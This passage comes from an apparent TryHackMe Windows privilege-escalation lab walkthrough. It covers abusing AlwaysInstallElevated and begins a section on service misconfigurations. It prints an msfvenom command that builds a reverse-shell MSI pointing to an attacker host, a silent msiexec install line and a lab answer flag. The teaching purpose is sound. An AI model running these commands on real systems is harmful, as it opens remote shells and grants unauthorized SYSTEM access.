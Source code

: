 ```
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using ```msfvenom```, as seen below:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.138.215 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
As this is a reverse shell, you should also run the ```Metasploit Handler module``` configured accordingly. Once you have transferred the file you have created, you can ```run the installer``` with the command below and receive the reverse shell:

#### Command Prompt
```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

1. What is the taskusr1 flag?
![img](/assets/img/wpe07.png)
![img](/assets/img/wpe08.png)

Answer:THM{TASK_COMPLETED}







---

Task 5  Abusing Service Misconfigurations
---

### Windows Services
Windows services are managed by the ```Service Control Manager``` (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.

To better understand the structure of a service, let's check the apphostsvc service configuration with the ```sc qc``` command:

Command Prompt
```
C:\> sc qc apphostsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: apphostsvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k apphost
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Application Host Helper Service
        DEPENDENCIES       :
        SERVICE_START_NAME : localSystem
```
Here we can see that the associated executable is specified through the ```BINARY_PATH_NAME``` parameter, and the account used to run the service is shown on the ```SERVICE_START_NAME``` parameter.
```